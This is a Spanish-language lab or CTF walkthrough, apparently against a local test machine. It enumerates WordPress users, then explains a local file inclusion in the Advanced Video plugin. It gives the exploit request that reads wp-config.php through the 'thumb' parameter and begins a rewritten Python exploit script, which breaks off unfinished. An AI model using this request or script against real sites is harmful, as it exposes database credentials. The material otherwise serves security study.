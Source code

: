 ```python
[+] scott
 | Found By:[..]
[+] kathy
 | Found By:[..]
[+] tim
 | Found By:[..]
```

Continuando el reconocimiento, en `/plugins` se visualizó un plugin vulnerable: `https://192.168.0.72:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/`

```python
$searchsploit advanced video
----------------------------------------------------------- ---------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------
WordPress Plugin Advanced Video 1.0 - Local File Inclusion | php/webapps/39646.py
```

El objetivo de este exploit es leer archivos en el servidor y mostrarlos públicamente en `wp-config.php`. Causando lo siguiente:
- Usar una función mal implementada para:
	- Leer archivos arbitrarios sin autenticación: `wp-config.php`
	- Hacer que WordPress los guarde y los exponga como si fueran imágenes.
	- Obtener información sensible como credenciales de base de datos.

>El archivo afectado es `/inc/classes/class.avePost.php`
>La función vulnerable es `ave_publishPost()`

La parte de `/wp-admin/admin-ajax.php?action=ave_publishPost&title=RANDOM_NUMBER&short=rnd&term=rnd&thumb=../wp-config.php` es una solicitud que llama a la función vulnerable, apelando a la parte del código que indica el exploit:
```php
  function ave_publishPost(){
    $title = $_REQUEST['title'];
    $term = $_REQUEST['term'];
    $thumb = $_REQUEST['thumb'];
 <snip>
 Line 78:
    $image_data = file_get_contents($thumb);
```
Es decir, el parámetro `thumb` se usa directamente en `file_get_contents()` sin validación. Provocando así el acceso a archivos arbitrarios, en este caso `wp-config.php` como si fuera una imagen, sin validar que es una imagen.

Posteriormente WordPress guardará el contenido del archivo en `/wp-content/uploads/`. Siendo información crítica en texto plano que tiene credenciales.

Se reescribió el exploit, siendo en resumen, un script que genera un `title` aleatorio y hace la petición a `admin-ajax.php?action=ave_publishPost con thumb=../wp-config.php`. Haciendo que WordPress genere un nuevo post y lo sube a `wp-content/uploads/`.
```python
import random
import urllib.request
import re
import ssl

# Se desactivó la verificación SSL si es necesario
ssl._create_default_https_context = ssl._create_unverified_context

# Se cambió la URL a la de la máquina
base_url = "https://192.168.0.72:12380/blogblog"

# Se generó un ID aleatorio
randomID = random.randint(10000, 999999)

# Se construyó la URL para crear el post
```